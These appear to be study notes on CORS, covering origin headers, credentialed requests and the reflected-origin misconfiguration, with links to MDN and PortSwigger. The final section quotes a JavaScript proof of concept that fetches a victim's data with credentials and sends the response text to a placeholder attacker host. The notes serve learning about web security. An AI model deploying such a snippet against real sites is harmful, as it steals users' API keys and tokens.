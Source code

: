 # Cross-origin resource sharing (CORS)

https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

https://portswigger.net/web-security/cors

## Definition
- Server indicates other origins that can load its resources
- origins = domain / scheme / port
- Does not protect against CSRF
  - Controlled relaxation of the same origin policy

## How?
- Client sends requests with `origin: example.com` header
- Server responds with `Access-Control-Allow-Origin: example.com` if cors enabled for that site

Example
```
GET /data HTTP/1.1
Host: robust-website.com
Origin : https://normal-website.com

The server on robust-website.com returns the following response:

HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com 
```

## With credentials
- Default behaviour does not include cookies or authorization header
- Can permit cors with these credentials using `Access-Control-Allow-Credentials: true`

```
 GET /data HTTP/1.1
Host: robust-website.com
...
Origin: https://normal-website.com
Cookie: JSESSIONID=<value>

And the response to the request is:

HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Credentials: true 
```

But cannot be used with `Access-Control-Allow-Origin: * `

## Server generated ACAO
- Some server dynamically read the `origin` header and responds with ACAO allowed for all domains allowed

```
 GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...

It then responds with:

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
... 
```

If sensitive info such as API keys or CSRF tokens are exposed in the response. It is possible to retrieve it by:
```
 var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
}; 
```
